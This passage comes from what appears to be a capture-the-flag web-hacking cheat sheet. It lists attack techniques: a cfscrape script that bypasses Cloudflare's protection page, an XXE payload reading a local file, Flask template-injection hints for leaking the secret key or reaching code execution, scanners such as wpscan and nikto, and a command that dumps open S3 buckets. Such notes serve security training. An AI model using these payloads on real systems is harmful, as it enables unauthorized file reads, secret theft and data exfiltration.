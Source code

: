 
* [CloudFlare Bypass](https://github.com/Anorov/cloudflare-scrape)

	If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.

``` python
#!/usr/bin/env python

import cfscrape

url = 'http://yashit.tech/tryharder/'

scraper = cfscrape.create_scraper()
print scraper.get(url).content
```

* [`wpscan`](https://wpscan.org/)

	* A Ruby script to scan and do reconnaissance on a [Wordpress](https://en.wikipedia.org/wiki/WordPress) application.


* XXE : XML External Entity

    Include local files in XML. Can be used to make an **LFI** from a XML parser.
    XML script to display the content of the file /flag :

    Dont forget to use <?xml version="1.0" encoding="UTF-16"?> on Windows (for utf16).

``` xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///flag">
]>
<data>&file;</data>
```


* Flask Template Injection

	Try `{{config}}` to leak out the secret key, or start to climb up the Python MRO to acheive code execution.

	[https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html](https://nvisium.com/resources/blog/2015/12/07/injecting-flask.html), [https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html](https://nvisium.com/resources/blog/2016/03/09/exploring-ssti-in-flask-jinja2.html), [https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html](https://nvisium.com/resources/blog/2016/03/11/exploring-ssti-in-flask-jinja2-part-ii.html)



* [`nikto`](https://github.com/sullo/nikto)

	Website scanner implemented in [Perl](https://en.wikipedia.org/wiki/Perl).


* [Burpsuite](https://portswigger.net/burp)

	Tool suite generally used to intercept and manipulate HTTP requests.


* AWS / S3 Buckets dump

	Dump all files from a S3 bucket without credentials.

``` bash
aws s3 cp --recursive --no-sign-request s3://<bucket_name> .
```